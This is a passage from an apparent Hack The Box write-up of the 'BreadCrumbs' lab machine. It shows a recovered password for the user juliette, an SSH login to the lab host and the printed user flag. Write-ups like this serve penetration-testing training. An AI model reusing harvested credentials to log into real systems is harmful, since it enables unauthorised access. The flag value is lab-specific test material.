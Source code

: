 
juliette - jUli901./())!


With that we can ssh into juliette

# # `SSH` -

```bash
root@napster:~/Documents/HTB/BreadCrumbs# ssh juliette@10.10.10.228
juliette@10.10.10.228's password:
Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.
juliette@BREADCRUMBS C:\Users\juliette\Desktop>dir
 Directory of C:\Users\juliette\Desktop

01/15/2021  05:04 PM    <DIR>          .
01/15/2021  05:04 PM    <DIR>          ..
12/09/2020  07:27 AM               753 todo.html  
07/28/2021  10:38 PM                34 user.txt   
               2 File(s)            787 bytes     
               2 Dir(s)   6,368,403,456 bytes free

juliette@BREADCRUMBS C:\Users\juliette\Desktop>type user.txt
e2c33ee167e1eb804bda0c9079483850
```